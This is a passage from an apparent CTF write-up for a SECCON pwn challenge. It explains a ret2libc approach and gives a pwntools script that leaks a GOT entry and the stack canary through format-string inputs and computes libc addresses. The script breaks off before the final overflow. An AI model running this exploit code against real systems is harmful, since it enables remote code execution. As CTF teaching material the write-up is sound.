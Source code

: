 None of the programs were able to parse it correctly, but I found some strings used in the `malloc` function so I used them to find out the offset of malloc inside the libc. I also quickly found out that some of the symbols would load correctly, so I managed to find `system` as well.  
I used `strings` with the -o option to find the offset of the "/bin/sh\x00" string.  

I also found a `pop rdi; ret` gadget in the binary itself. This allows us to try the standard `ret to system` attack.  
All that we need is to get a leak from a known function, like `malloc`, calculate the libc base and subsequently the addresses of system and the "/bin/sh\x00" string and use our overflow to overwrite the saved RIP.

The only obstacle is the canary, but we can just leak it first and just keep it unchanged.

This is the final exploit:
```python
HOST = "lazy.chal.seccon.jp"
PORT = 33333

s = remote(HOST, PORT)
username = "_H4CK3R_"
password = "3XPL01717"

# 0x00000000004015f3 : pop rdi ; ret
pop_rdi = 0x4015f3

libc_start_main = 0x20740
system_off = 0x3F570
malloc_off = 0x78560
bin_sh_off = 0x163c38

s.sendline("2")
s.sendline(username)
s.sendline(password)
s.sendline("4")

leak_fmt = "%7$sAAAA"
leak_fmt += p64(elf.got["malloc"])
s.sendline(leak_fmt)

s.recvuntil("Filename : ")
leak = u64(s.recv(6).ljust(8, "\x00"))

libc_base = leak - malloc_off
system = libc_base + system_off
bin_sh = libc_base + bin_sh_off

log.info("leak {}".format(hex(leak)))
log.info("libc base  @ {}".format(hex(libc_base)))
log.info("system     @ {}".format(hex(system)))
log.info("/bin/sh    @ {}".format(hex(bin_sh)))

leak_fmt = "%9$llx"

s.sendline("4")
s.sendline(leak_fmt)

s.recvuntil("Filename : ")
cookie = int(s.recvline().strip(), 16)

log.info("stack cookie = {}".format(hex(cookie)))

leak_fmt = "%10$llx"

s.sendline("4")
s.sendline(leak_fmt)
```